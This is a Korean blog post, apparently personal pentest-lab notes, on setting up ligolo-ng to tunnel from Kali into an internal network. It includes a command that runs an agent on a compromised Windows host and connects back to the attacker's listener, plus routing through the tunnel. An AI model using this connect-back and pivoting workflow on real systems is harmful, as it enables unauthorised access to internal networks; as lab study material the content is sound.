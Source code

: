 ```yaml
---
layout: post
title: ligolo-ng 사용법
subtitle: logolo-ng를 이용해서 포트포워딩, 네트워크 피보팅하기
category: knowledge
thumbnail-img: /assets/img/knowledge/ligolo_logo.png
tags: [ligolo, ligolo-ng, proxy, pivot, portforwarding]
author: Hong
---
```


우선 서버와 클라이언트에서 사용할 proxy, agent 바이너리 파일을 각각 다운받아야한다.

[깃허브](https://github.com/nicocha30/ligolo-ng)에서 다운로드.

SOCKS프록시를 사용하지 않기 때문에 설정 필요없고 간편하다.

kali에서 터널 준비 & 기동

```
sudo ip tuntap add user [your_username] mode tun [원하는 이름]

sudo ip link set [원하는 이름] up
```

서버에서 원하는 포트 지정.

```
 ./proxy -selfcert -laddr "0.0.0.0:7878" --selfcert-domain [터널 이름]  # default는 ligolo
WARN[0000] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC!
WARN[0000] Using self-signed certificates
WARN[0000] TLS Certificate fingerprint for ligolo is: 961A1B781DE6D16C89601ACCC6FF50A1BA11F96D9A6B880CD9EE0C4DA1B2E7DD
INFO[0000] Listening on 0.0.0.0:7878
    __    _             __
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ /
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /
        /____/                          /____/

  Made in France ♥            by @Nicocha30!
  Version: 0.7.5

ligolo-ng »
```

agent 바이너리 파일을 타겟 시스템에 배치한 후 아래의 명령어로 연결.

```
PS C:\temp> .\agent.exe -connect 192.168.45.211:7878 -ignore-cert
```

서버에서 접속된 것을 확인.

session명령어로 연결된 세션을 확인 할 수 있다.

```
ligolo-ng » INFO[0193] Agent joined.                                 id=2f93be9e-5c04-4ff8-bc57-d091c33b86d2 name="NT Service\\MSSQL$SQLEXPRESS@WEB02" remote="192.168.165.121:65289"

ligolo-ng » session
? Specify a session : 1 - NT Service\MSSQL$SQLEXPRESS@WEB02 - 192.168.165.121:65289 - 2f93be9e-5c04-4ff8-bc57-d091c33b86d2
[Agent : NT Service\MSSQL$SQLEXPRESS@WEB02] »
```

```
[Agent : NT Service\MSSQL$SQLEXPRESS@WEB02] » ifconfig
┌───────────────────────────────────────────────┐
│ Interface 0                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ Ethernet0                      │
│ Hardware MAC │ 00:50:56:ab:ad:c1              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ 192.168.165.121/24             │
└──────────────┴────────────────────────────────┘
┌───────────────────────────────────────────────┐
│ Interface 1                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ Ethernet1                      │
│ Hardware MAC │ 00:50:56:ab:f2:9d              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ 172.16.165.254/24              │
└──────────────┴────────────────────────────────┘
┌──────────────────────────────────────────────┐
│ Interface 2                                  │
├──────────────┬───────────────────────────────┤
│ Name         │ Loopback Pseudo-Interface 1   │
│ Hardware MAC │                               │
│ MTU          │ -1                            │
│ Flags        │ up|loopback|multicast|running │
│ IPv6 Address │ ::1/128                       │
│ IPv4 Address │ 127.0.0.1/8                   │
└──────────────┴───────────────────────────────┘
```

프록시 경유로 접속하고 싶은 네트워크 대역을 라우팅 테이블에 추가.

```
$ sudo ip route add 172.16.157.0/24 dev [터널 이름] # 이 예시에서는 터널이름이 ligolo
```

아래의 명령어로 추가되었는지 확인.

```
ip route list

default via 172.27.16.1 dev eth0 proto kernel
172.16.157.0/24 dev ligolo scope link
172.27.16.0/20 dev eth0 proto kernel scope link src 172.27.26.112
192.168.45.0/24 dev tun0 proto kernel scope link src 192.168.45.165
192.168.157.0/24 via 192.168.45.254 dev tun0
```

여기까지했으면 설정 완료.
서버의 ligolo쉘로 돌아가서 start를 입력하면 프록시가 시작된다.

kali에서 설정한 네트워크에 문제없이 통신이 가능해진다.

# 참고자료

관련 유튜브 영상의 [링크](https://www.youtube.com/watch?v=DM1B8S80EvQ&ab_channel=GonskiCyber)
참고한 블로그 [링크](https://software-sinner.medium.com/how-to-tunnel-and-pivot-networks-using-ligolo-ng-cf828e59e740)
